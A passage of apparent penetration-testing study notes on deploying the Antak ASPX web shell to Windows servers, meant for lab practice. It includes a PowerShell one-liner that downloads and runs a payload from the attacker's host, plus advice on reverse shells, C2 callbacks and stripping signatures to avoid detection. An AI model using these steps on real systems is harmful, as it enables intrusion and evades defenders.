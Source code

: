             ```
            Directory: C:\Users
            Mode                LastWriteTime         Length Name
            ----                -------------         ------ ----
            d-----        9/27/2021   5:37 PM                Administrator
            d-----        9/12/2021   1:50 PM                Public
            ...
            
            ```
            
        - **What It Shows**: Lists user directories on the Windows server.
    - **Help Command**:
        - Enter: `help`
        - **Output**: Displays available commands and features.
        - **Why Useful?**: Guides you if you’re unsure what to do next.
5. **Advanced Usage**:
    - **Upload Payloads**: Use the “Upload the File” feature to deliver additional payloads (e.g., a reverse shell).
    - **PowerShell One-Liner**: Download and execute a payload directly:
        
        ```powershell
        Invoke-WebRequest -Uri "http://<your_ip>/payload.ps1" -OutFile "payload.ps1"; .\payload.ps1
        
        ```
        
    - **Callback to C2**: Use Antak to deliver a payload that connects to your command and control (C2) platform (e.g., Metasploit, Cobalt Strike).

### Example Output

- **Command**: `dir C:\Users`
- **Result**: Lists user directories, confirming you can interact with the Windows filesystem.
- **Significance**: Verifies the web shell provides RCE via PowerShell.

---

## Key Takeaways

- **Antak’s Power**: A versatile ASPX web shell that uses PowerShell to control Windows servers, offering features like command execution, file uploads, and script encoding.
- **Setup**:
    - Found in `/usr/share/nishang/Antak-Webshell` on Parrot OS/Kali.
    - Requires modification (e.g., adding username/password on line 14, removing ASCII art/comments).
- **Deployment**:
    - Exploit file upload vulnerabilities to place `antak.aspx` on the target.
    - Access the shell via the browser, authenticate, and run PowerShell commands.
- **Learning Resource**:
    - Use IPPSEC’s blog (ipsec.rocks) to find video demonstrations of ASPX shells and other hacking concepts.
    - Watch the “Cereal” video (1:17–1:20) for a practical ASPX shell example.
- **Challenges**:
    - Ensure the target supports ASPX (common on Windows servers with ASP.NET).
    - Verify the upload path and credentials.
    - Avoid detection by removing signatures (e.g., ASCII art).
- **Practice Tips**:
    - Test Antak in lab environments like Hack The Box or TryHackMe.
    - Experiment with PowerShell commands and file uploads to understand Antak’s capabilities.
    - Combine Antak with other Nishang tools for advanced attacks.

---